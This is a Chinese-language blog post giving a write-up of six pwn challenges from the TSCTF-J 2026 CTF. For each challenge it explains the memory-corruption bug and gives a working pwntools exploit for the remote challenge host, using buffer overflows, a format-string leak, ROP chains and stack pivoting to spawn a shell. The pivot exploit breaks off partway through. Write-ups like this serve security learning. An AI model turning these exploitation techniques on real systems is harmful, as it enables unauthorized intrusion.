+++
date = '2026-10-14T08:00:00+08:00'
draft = false
title = 'TSCTF-J 2026 Pwn WriteUp'
categories = ["writeup"]
series = ["writeup"]
series_order = 1
summary = "这tm新生赛吗？"
+++

## signin

打开main：



有backdoor：



超级大溢出，ret2text

exp：

```py
from pwn import *

# io = process("./signin")
io = remote("43516865455357574364375562527a377934503375-p10001.chal.buptmerak.cn", 443, ssl=True, sni="43516865455357574364375562527a377934503375-p10001.chal.buptmerak.cn")

backdoor = 0x00000000004011F4
payload = cyclic(0x48) + p64(backdoor)
io.sendafter(b"Enter your name: ", payload)

io.interactive()
```

## flag-memory

打开main：



程序有一个任意读：



和一个gadget：



先打开flag写到save_data里，然后擦了，但是fgets读文件的时候一般会在另一个地方存一份原本，然后在复制到指定区域。看看fopen返回的FILE指针：



就在这，然后再求一下和save_data的偏移试一下，通了。

exp：

```py
from pwn import *

# io = process("./flag_memory")
io = remote("376c564f723955714f564661706e44794371453646-p9999.chal.buptmerak.cn", 443, ssl=True, sni="376c564f723955714f564661706e44794371453646-p9999.chal.buptmerak.cn")

io.recvuntil(b"[Memory] Original location: ")


mem = int(io.recvline().strip(), 16) + (0x405510 - 0x4052a0)
pop_rdi = 0x00000000004011A6
printmem = 0x00000000004011AB
payload = cyclic(0x38) + p64(pop_rdi) + p64(mem) + p64(printmem)
io.sendafter(b"> ", payload)

io.interactive()
```

## ret2libc

打开main和vuln：




首先让你输一个姓名必须是murasame，但是filter不让你输入e：



对于strcmp来讲，如果长度不一样的字符串，按短的比，只打一个m就能规避这个问题。

程序没有backdoor，需要泄露libc基址，一次溢出不够。但程序会有一个first和gate_ticket（以及name）防止你跳回vuln开头。

如果直接跳到main开头，gate_ticket设置好了，只需要改name和first，程序也提供了两个用来改的函数（以及一堆gadgets）：





但是当时想到跳main太远可能会出事，所以我当时的想法是**打栈迁移跳到vuln中间**（？），只需要考虑gate_ticket。没有现成的函数改，但是程序给的溢出实在太大了，我**用patch_byte改了八次**（？？？）

exp：

```py
from pwn import *

context.log_level = "debug"
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
program = ELF("./pwn")
libc = ELF("./libc.so.6")
# io = process("./pwn")
io = remote("6a3846414e734d376e68466d3573326b64716e7238-p1337.chal.buptmerak.cn", 443, ssl=True, sni="6a3846414e734d376e68466d3573326b64716e7238-p1337.chal.buptmerak.cn")

io.sendafter(b"who are you?", b'm')

pop_rdi = 0x000000000040123A
pop_rsi = 0x0000000000401243
pop_rdx = 0x000000000040124C
rbp = 0x0000000000404A00
read = 0x0000000000401312
gate = 0x00000000004040A0
patch = 0x0000000000401210
payload = 0x48 * b'a' + p64(1) + p64(rbp)
payload += p64(pop_rdi) + p64(gate) + p64(pop_rsi) + p64(0x5A) + p64(patch)
payload += p64(pop_rdi) + p64(gate + 1) + p64(patch)
payload += p64(pop_rdi) + p64(gate + 2) + p64(patch)
payload += p64(pop_rdi) + p64(gate + 3) + p64(patch)
payload += p64(pop_rdi) + p64(gate + 4) + p64(patch)
payload += p64(pop_rdi) + p64(gate + 5) + p64(patch)
payload += p64(pop_rdi) + p64(gate + 6) + p64(patch) 
payload += p64(pop_rdi) + p64(gate + 7) + p64(patch) 
payload += p64(pop_rdi) + p64(program.got['puts']) + p64(program.plt['puts']) + p64(read)
io.sendafter(b"say something> \n", payload)

libc.address = u64(io.recv(6).ljust(8, b'\x00')) - libc.symbols['puts']
log.success("Got libc address: " + hex(libc.address))
sleep(0.1)

pop_rax = libc.address + 0x0000000000045eb0
syscall = libc.address + 0x0000000000029db4 
binsh = next(libc.search(b'/bin/sh\x00'))
payload = 0x58 * b'a' + p64(pop_rdi) + p64(binsh) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(pop_rax) + p64(0x3b) + p64(syscall)
io.send(payload)


io.interactive()
```

## tea

打开main：



菜单，先选一个加密函数，然后选长度，按长度决定在栈上还是堆上。读入一些数据之后按前面写的序号计算索引，在tea函数指针数组中找到对应的函数调用，（理论上）加密完打印。

问题是他只检测大于3时按orange tea处理，但是小于1时不处理，还要去索引函数指针，并且这个数组上面有个got表：



因此可以考虑利用一下got表里的函数，比如用scanf搞格式化字符串漏洞。先看看调用scanf之前的栈：



把前面全盖了，用最后的puts带出地址，先泄露libc地址，在泄露程序基址，接下来可以考虑打ret2libc了。有full relro，got写不了，可以把tea函数的那些指针改成system的地址，然后调用那个函数，输入binsh即可

exp：

```py
from pwn import *

context.log_level = "debug"
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
program = ELF("./tea")
libc = ELF("./libc.so.6")
# io = process("./tea")
io = remote("6261446a697255596a53383932726e443579683051-p1337.chal.buptmerak.cn", 443, ssl=True, sni="6261446a697255596a53383932726e443579683051-p1337.chal.buptmerak.cn")

# 1. leak address of libc start main

io.sendlineafter(b">", b'-7')
io.sendlineafter(b">", b'1')
sleep(1)
payload = b' %9$40c\x00' # space to delete \n, \x00 to split
io.send(payload)
sleep(1)
io.sendline(cyclic(40))
io.recvuntil(b"aacaaadaaaeaaafaaagaaahaaaiaaajaaa")

libc.address = u64(io.recv(6).ljust(8, b'\x00')) - (0x7ffff7c29d90 - 0x7ffff7c00000)
log.success("Got libc address: " + hex(libc.address))

# 2. leak address of main

io.sendlineafter(b">", b'-7')
io.sendlineafter(b">", b'1')
sleep(1)
payload = b' %9$56c\x00' # space to delete \n, \x00 to split
io.send(payload)
sleep(1)
io.sendline(cyclic(56))
io.recvuntil(b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa")

program.address = u64(io.recv(6).ljust(8, b'\x00')) - 0x1BCD
log.success("Got program address: " + hex(program.address))

# 3. change tea[0] to system

io.sendlineafter(b">", b'-7')
io.sendlineafter(b">", b'1')
sleep(1)
payload = b' %13$8c\x00' + p64(program.address + 0x0000000000004010)
io.send(payload)
sleep(1)
io.sendline(p64(libc.symbols['system']))

# getshell

io.sendlineafter(b">", b'1')
io.sendlineafter(b">", b'1')
sleep(1)
payload = b'/bin/sh\x00'
io.send(payload)

io.interactive()
```

## oh-my-brainfuck

似乎是汇编搓的小程序，start开始依次调用了这些东西：



发送一些欢迎信息，读取一些bf代码，处理一些中括号，然后执行。

问题出在处理中括号的时候，用栈保证括号匹配，但是遇到右括号不会看有没有左括号，而是直接pop了。



假设我只写一个右括号，因为栈里啥也没有，会pop返回地址给rax然后减r8，r8是栈上bf代码缓冲区的地址，得到一个负数（溢出为大正数），和rcx（读到的代码长度）比较，跳转到异常处理，直接ret。

pop完返回地址后栈内就剩下bf代码的缓冲区，这里ret的话弹出来的就是bf代码前八个字节了。而程序本身没有检查bf代码中有没有非法字符，执行时候如果有就直接跳过了，因此我们可以在这里布置rop链，在bf执行前就能跳到这里。

程序只有syscall（和两个gadgets）：



打ret2syscall，但是需要在哪搞一个binsh来，还得改rax。可以写在bf用的tape上，rax可以考虑用read/write返回值。

接下来开始组织整套攻击流程。我自己的思路如图（没图的话我实在是说不出来了qwq）



（由于我坚信这个坑不应该是我的问题，贴一下我自己的exp qwqqwqqwq）



但是实际执行下来一直炸，调试也没搞懂，因此用codex跑了一下，问题出在这：




在run里rcx存储了bf代码的长度（两个p64 + 一个中括号，为17），但是在这里面的读写，用的是syscall，会将rcx改成syscall的返回地址，导致bf执行有问题，然后就乱套了。。

然后codex大人的解决方法很粗暴：把“自己写bf，程序执行”改成**用rop链控制执行流模拟执行bf**。同时给其他部分也稍稍改动了一下。。

这是我根据codex的思路整理后的exp：

```py
from pwn import *

# context.log_level = 'debug'
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
# io = process('./bf')
io = remote("663234747351614b517a63656c695167687a494879-p1337.chal.buptmerak.cn", 443, ssl=True, sni="663234747351614b517a63656c695167687a494879-p1337.chal.buptmerak.cn")

pop_rdi = 0x00000000004011C5
xor_arg23 = 0x00000000004011C7
ret = 0x000000000040115C
read = 0x0000000000401150
run = 0x0000000000401078
tape = 0x00000000004036FC
silver_read = 0x0000000000401142
syscall = 0x0000000000401167
tape_read = 0x00000000004010E8 # gadgets in _run_op_comma, for single byte reading.
inc_rdi = 0x00000000004010BB # to _run_next(not ret)
pop_rbx = 0x00000000004010B8 # to _run_next(not ret)

# first rop: just for triggering extend read

payload = p64(read) + b']'
io.sendafter(b':', payload)

sleep(1)

# second rop: after read by bf, trigger silver read to set rax = 59

payload = b'a' * 8
payload += p64(pop_rbx) + p64(0x1000000) # after _run_next, if rbx is big enough, exit run
payload += p64(pop_rdi) + p64(tape)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read) + p64(inc_rdi)
payload += p64(tape_read)
payload += p64(silver_read)
payload += p64(pop_rdi) + p64(tape)
payload += p64(xor_arg23) + p64(syscall)
io.send(payload)

sleep(1)

io.send(b'/')
io.send(b'b')
io.send(b'i')
io.send(b'n')
io.send(b'/')
io.send(b's')
io.send(b'h')
io.send(b'\x00')

sleep(1)

# third rop: set rax

payload = payload[:59]
io.send(payload)

io.interactive()

```

## pivot

打开main：



和去年类似，但是read write换成了fgets puts，栈迁移从借助rbp设置rsi变成了设置rdi。

相比之下fgets至少得拍个回车，而且输入后面会加一个\x00，而puts遇到\x00就停了，因此得考虑一种其他方式去泄露libc基址。

初步想法是可以用这个：



这里会设置rdi = stderr，可以用栈迁移fgets把setvbuf的got表改成puts，在不通过fgets的情况下设置rdi调用puts，不过rdi是stderr，不是&stderr，不能直接泄露，可以再用一次fgets将其改为got表某个条目的**地址**（或者另外两个iofile指针的地址），这样就能泄露libc基址了。

组织攻击流程：先改setvbuf、再改stderr、调用setvbuf、打ret2libc

另外上面用到的这些函数会在rsp处开一片大栈帧，为了防止误杀附近的数据，需要提前在403000 - 404000的空白区域设置一个中转区，通过leave实现中转区和上面这些地方的互相跳转，保证每次关键流程前挪走rsp。

exp：

```py
from pwn import *

context.log_level = "debug"
def check():
    if io.poll() is None:
        gdb.attach(io)
        pause()
program = ELF("./pivot")
libc = ELF("./libc.so.6")
# io = process("./pivot")
io = remote("7a564c4e3035554a3671346f4d354b704672665739-p1337.chal.buptmerak.cn", 443, ssl=True, sni="7a564c4e3035554a3671346f4d354b704672665739-p1337.chal.buptmerak.cn")

io.recvuntil(b"Welcome, have fun again\n")

# check()

### jump to safe stack

rbp_safe = 0x0000000000403B00
fgets = 0x0000000000401200

payload = cyclic(0x10) + p64(rbp_safe) + p64(fgets)
io.sendline(payload)
sleep(1)

### rop at safe stack

rbp1 = 0x0000000000403358
rbp2 = 0x00000000004033B0
rbp3 = rbp_safe + 0x40
rbp4 = rbp_safe + 0x50
setvbuf = 0x00000000004011BA

payload = cyclic(0x10) + p64(rbp1) + p64(fgets) + p64(rbp2) + p64(fgets) + p64(rbp3) + p64(setvbuf) + p64(rbp4) + p64(fgets)
io.sendline(payload)
sleep(1)

### change setvbuf got to puts plt

leave_ret = 0x000000000040121D

